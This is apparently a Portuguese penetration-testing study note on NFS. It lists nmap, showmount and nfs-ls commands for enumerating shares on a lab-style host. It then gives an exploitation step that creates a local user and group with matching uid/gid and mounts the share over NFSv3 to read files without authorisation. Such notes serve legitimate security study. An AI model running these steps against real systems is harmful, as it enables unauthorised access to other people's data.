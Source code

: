NFS
========================

# Resumo

## Enumeração

 A premissa do NFS é o mesmo do SMB, compartilhar arquivos por meio da rede, acontece que no caso do NFS não é utilizado autenticação e autorização em suas versões 3 e 2, somente um grau de seguranã maior na sua versão 4.
 
 Para explorar essa vulnerabilidade, primeiro precisamos fazer a enumeração do serviço por meio dos seguintes comandos:
 
 
     sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.11.1.72
     #outra possibilidade também pode ser:
     sudo apt update
     sudo apt install libnfs-utils
     #Com isso a gente consegue fazer a enumeração das permissividades dos arquivos em modo recursivo
     nfs-ls -R nfs://10.11.1.72/home
     
     showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254


![qownnotes-media-wrgegz](../media/qownnotes-media-wrgegz.png)

## Exploitation

Assim que fizermos a enumeração, vamos identificar quais são os IDs pertinenetes aos arquivos lá constados no share via NFS, mas isso só é válido nas versões 2 e 3  do protocolo. A versão 4 já é mais segura! Basta adicionarmos o usuário e o grupo do usuário cujo uid e guid corespondem ao mesmo que foi identificao no momento da enumeração.

    sudo adduser --uid 1014 pwn
    sudo addgroup --gid 1014 pwn_group
    sudo usermod -a -G pwn_group pwn

    mount.nfs -o vers=3 10.11.1.72:/home /tmp/mount_dir
